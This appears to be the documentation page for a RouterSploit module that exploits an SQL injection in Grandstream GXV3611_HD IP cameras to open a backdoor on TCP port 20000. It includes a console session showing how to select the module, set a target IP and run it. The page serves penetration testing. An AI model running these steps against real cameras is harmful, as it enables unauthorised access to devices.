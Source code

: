 # Grandsteam GXV3611_HD - SQL Injection

## Description
Module exploits an SQL injection vulnerability in Grandstream GXV3611_HD IP cameras. After the SQLI is triggered, the module opens a backdoor on TCP/20000 and connects to it

## Authors
* pizza1337 # vulnerability discovery
* Joshua Abraham # routersploit module

## References
* [https://www.exploit-db.com/exploits/40441/](https://www.exploit-db.com/exploits/40441/)
* [http://boredhackerblog.blogspot.com/2016/05/hacking-ip-camera-grandstream-gxv3611hd.html](http://boredhackerblog.blogspot.com/2016/05/hacking-ip-camera-grandstream-gxv3611hd.html)

## Vulnerable devices
* Grandstream GXV3611_HD

## Usage
```
rsf > use exploits/grandstream/gxv3611hd_ip_camera_rce
rsf (Grandsteam GXV3611_HD - SQL Injection) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address e.g. 192.168.1.1
   port       23                   Target port


rsf (Grandsteam GXV3611_HD - SQL Injection) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Grandsteam GXV3611_HD - SQL Injection) > run
[*] Running module...
```
